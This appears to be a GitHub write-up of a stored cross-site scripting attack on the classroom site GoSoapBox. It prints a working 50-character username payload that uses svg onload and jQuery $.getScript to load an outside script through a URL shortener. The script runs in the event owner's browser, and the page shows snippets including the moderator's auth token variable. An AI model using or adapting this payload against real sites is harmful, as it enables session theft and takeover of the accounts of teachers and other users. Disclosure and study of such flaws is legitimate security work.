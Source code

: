 # GoSoapBox XSS

Input in this site is rarely filtered, and on the rare occasions that it is, 
it's done poorly, and in a way that can be bypassed with minimal effort.

Just to get it out of the way, here is the actual XSS vector:
`";//<svg onload="$.getScript('//example.com/abcd')"/>`

where example.com/abcd stands for any url to a script file

To understand why this vector is used, first, some background understanding of GoSoapBox is needed.

1. GoSoapBox uses a Firebase DB to hold its information

Because of this, at the bottom of the page, there's a snippet of JS that looks like this:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "my name";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

This js MUST be fully executed in order for the name to appear in the list of online users.

The problem is, any typical XSS vector would not show up in the list of online users,
since the given username is lazily concatenated into the javascript like so:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<svg onload="alert(1)"></svg>"; // Syntax error
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

thus causing a syntax error.

Another problem, at least in Chrome, is that the browser automatically closes a script tag a closing script tag is found in its JS code. Because of this, the XSS vector:

`<script>alert(1)</script>`

is seen in the DOM like this:

```
<script>
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<script>alert(1)
</script> <!-- Undoubtedly syntax error -->

";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
</script>
```

thus causing a more horrifying syntax error.

The next restriction is that

2. GoSoapBox restricts names to 50 characters

This makes writing code directly into the XSS vector infeasible, and also makes most JS hosting sites useless as well, since their URLs are far too long.

So what is the solution? URL shorteners, of course!

Not just any URL shortener can be used, however. The shortener used must both use HTTPS and have a short enough url to fit in the small input box we are given.

I, in particular, opted to use snip.li as my url shortener, though any URL shortener can be used as long as it meets the criteria.

So, to create this XSS vector, we have the following restrictions:

- No `<script>` tags
- Must be JS friendly
- 50 char limit

In order to get around these challenges, I used the following facts:

- GoSoapBox has no SOP
- It also uses jQuery
- svg onload exists

So my solution ended up being quite simple:

`";//<svg onload="$.getScript('//snip.li/OwO')"/>`

- The `";//` comments out the XSS vector to prevent a syntax error
- The svg onload uses `$.getScript` to retrieve an external script
- The external script is retrieved via the shortened URL `snip.li/OwO`, which points to an example script that I made.

Now, when the event owner looks at the list of online users using the "See Who's Online" button, the javascript will execute.

At this point, any normal XSS attack can be performed using the online script.

\*The XSS vector disappears after the attacking event guest logs out, making this XSS semi-persistent.

Credits:

- My teacher, for using this site 800 million times
